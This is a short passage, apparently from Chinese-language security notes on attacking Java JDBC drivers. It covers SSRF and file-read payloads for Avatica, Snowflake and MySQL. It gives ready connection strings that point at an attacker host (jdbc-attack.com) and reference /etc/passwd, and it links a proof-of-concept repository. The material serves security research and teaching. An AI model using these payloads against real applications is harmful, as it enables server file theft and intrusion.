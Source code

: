 SSRF

```
jdbc:avatica:remote:url=https://jdbc-attack.com?file=/etc/passwd;httpclient_impl=sun.security.provider.PolicyFile
```

### Snowflake

```
jdbc:snowflake://jdbc-attack.com/?user=trganda&passwd=trganda&db=db&authenticator=externalbrowserP
```

> 以上 Poc 可参考 https://github.com/trganda/atkjdbc

## jdbc 攻击-文件读取

这篇文章已经说的很全了，漏洞定位`com.mysql.jdbc.MysqlIO#sendFileToServer`
<https://lorexxar.cn/2020/01/14/css-mysql-chain/#Load-data-infile>
